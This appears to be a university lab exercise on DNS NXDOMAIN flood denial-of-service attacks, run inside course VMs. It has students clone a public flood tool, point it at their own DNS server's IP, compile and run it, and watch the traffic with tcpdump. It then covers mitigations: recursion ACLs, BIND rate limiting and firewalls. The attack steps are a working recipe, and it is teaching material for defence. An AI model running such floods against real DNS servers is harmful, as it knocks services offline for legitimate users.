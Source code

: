 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```bash
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).
For the sake of this task, enable recursion for the helper VM.

Connect to the helper VM.
Clone the following repository and change the working directory:

```bash
$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```bash
$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.100.11");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the base VM and from the helper VM):

```bash
$ host scgc.ro dns
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the base VM, run `tcpdump`:

```bash
$ sudo tcpdump -i virbr-labs udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```bash
$ sudo ./dos_attack
```

While the attack is running, from the base VM, test the DNS server:

```bash
$ host scgc.ro 192.168.100.11
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```bash
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.100.11.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.100.11.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.100.11.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove the helper VM from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the helper network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
